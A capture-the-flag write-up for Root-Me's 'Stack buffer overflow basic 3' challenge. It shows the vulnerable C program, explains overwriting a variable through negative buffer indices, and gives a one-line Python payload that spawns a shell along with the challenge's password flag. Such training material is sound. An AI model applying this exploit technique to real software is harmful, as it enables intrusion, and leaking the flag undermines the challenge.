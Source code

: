 # ELF x86 - Stack buffer overflow basic 3
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch16@challenge02.root-me.org
- Password:&emsp;app-systeme-ch16

![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:
This challenge is not required to use **GDB**. Look at the code:

```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
We analyze the code, the variable **i** get 1 bytes of "stdin" and execute the below section, we only finish this challenge when we change the value of **check** to **0xbffffabc**<br>
**buffer** is declared before **check** and therefore **check** 's value can't be altered through upper overflow. <br><br>
![image](https://user-images.githubusercontent.com/48288606/143523511-fe54d69c-7f2b-4320-a4ba-667ce2f90df4.png)<br>

### Solution:
It's possible to make a change in **check** by lower overflow in **buffer** array. It's mean overwriting `buffer[-1]`, `buffer[-2]`,`buffer[-3]` and `buffer[-4]` revalues **check**.
With the program provided, we have 2 main functions:
- Make count increase or decrease by 1 (and print something that we don't care)
```
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

- Set **buffer** with **i** 's value
```
                default:
                  buffer[count] = i;
                  count++;
                  break;
```
So just enter **i** with **0x08** 4 times and assign the desired value **0xbffffabc** in little endian format.

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`
Then read the `.passwd` file.

Password: Sm4shM3ify0uC4n


